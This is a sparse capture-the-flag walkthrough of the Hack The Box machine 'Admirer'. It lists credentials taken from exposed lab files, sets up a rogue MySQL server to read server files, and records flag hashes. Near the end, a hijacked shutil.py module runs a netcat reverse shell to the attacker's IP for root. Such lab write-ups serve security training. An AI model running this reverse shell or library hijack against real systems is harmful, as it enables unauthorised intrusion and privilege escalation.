

Admirer
{kind=link}
{kind=link}
{kind=link}
nothing sends
{kind=link}
{kind=link}
{kind=link}
{kind=link}
no screenshots for gobuster as it mostly lookedd like that
{kind=link}
/admin/dir
/contacts.txt
/credentials.txt
{kind=link}
{kind=link}
{kind=link}
{kind=link}
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P
[FTP account]
ftpuser
%n?4Wz}R$tTF7
[Wordpress account]
admin
w0rdpr3ss01!
{kind=link}
html.tar.gz
{kind=link}
{kind=link}
{kind=link}
{kind=link}
<?php
$servername = "localhost";
$username = "waldo";
$password = "Wh3r3_1s_w4ld0?";
{kind=link}
{kind=link}
{kind=link}
Wh3r3_1s_w4ld0? doesnt work for ssh
w4ld0s_s3cr3t_d1r/
{kind=link}
<?php
$servername = "localhost";
$username = "waldo";
$password = "]F7jLHw:*G>UPrTo}~A"d6b";
$dbname = "admirerdb";
doesnt work for ssh
{kind=link}

https://raw.githubusercontent.com/Gifts/Rogue-MySql-Server/master/rogue_mysql_server.py
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo apt install docker.io
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker pull mysql/mysql-server
Using default tag: latest
latest: Pulling from mysql/mysql-server
cdd8b07c6082: Pull complete
c2f1720beca1: Pull complete
39f143a8d6de: Pull complete
118a8285b641: Pull complete
b45cbcaf75c7: Pull complete
d4574372e600: Pull complete
1f565a3cbc52: Pull complete
Digest: sha256:e30a0320f2e3c7b7ee18ab903986ada6eb1ce8e5ef29941b36ec331fae5f10b2
Status: Downloaded newer image for mysql/mysql-server:latest
docker.io/mysql/mysql-server:latest
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ docker ls
docker: 'ls' is not a docker command.
See 'docker --help'
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ docker ps
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get "http://%2Fvar%2Frun%2Fdocker.sock/v1.24/containers/json": dial unix /var/run/docker.sock: connect: permission denied
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker ps
CONTAINER ID IMAGE COMMAND CREATED STATUS PORTS NAMES
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker run -p 3306:3306/tcp -p33060:33060/tcp --name=mysql1 -d mysql/mysql-server
024fcc9d0a6d6e792382a293804fb5ab1e029849a83405eb8349259d52910a12
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker logs mysql1 2>&1 | grep GENERATED
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker logs mysql1 2>&1 | grep GENERATED
[Entrypoint] GENERATED ROOT PASSWORD: I47MS8#v4t5ox/NJ1vb*?_6*&pphcR,4
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ docker exec -it mysql1 mysql -uroot -p
Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Get "http://%2Fvar%2Frun%2Fdocker.sock/v1.24/containers/mysql1/json": dial unix /var/run/docker.sock: connect: permission denied
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker exec -it mysql1 mysql -uroot -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.30
Copyright (c) 2000, 2022, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
─[us-dedicated-100-dhcp]─[10.10.14.2]─[htb-ep-8352@pwnbox-base]─[~]
└──╼ [★]$ sudo docker exec -it mysql1 mysql -uroot -p
Enter password:
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.30
Copyright (c) 2000, 2022, Oracle and/or its affiliates.
Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql> ^C
mysql> ALTER USER 'root'@'localhost' IDENTIFIED BY 'secret';
Query OK, 0 rows affected (0.01 sec)
mysql> create user 'admirer'@'%' identified by 'admirer';
Query OK, 0 rows affected (0.02 sec)
mysql> grant all privileges on . to admirer'@'%';
'> exit
'> ^C
mysql> grant all privileges on . to admirer@'%';
Query OK, 0 rows affected (0.01 sec)
mysql> show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| mysql |
| performance_schema |
| sys |
+--------------------+
4 rows in set (0.00 sec)
mysql> create database admirer;
Query OK, 1 row affected (0.01 sec)
mysql> show databases;
+--------------------+
| Database |
+--------------------+
| admirer |
| information_schema |
| mysql |
| performance_schema |
| sys |
+--------------------+
5 rows in set (0.00 sec)
mysql>
{kind=link}
$servername = "localhost";'
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";'{kind=link}
{kind=link}
{kind=link}
user own
94990d17b562da5a80158a37bc9c66c2
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}
waldo@admirer:/opt/scripts$ nano /tmp/shutil.py
import os
def make_archive(a, b, c):
os.system('nc 10.10.14.2 888 -e "/bin/sh"'){kind=link}
{kind=link}
{kind=link}
root own
8ab9a941f8615689ddbf34916ff4b658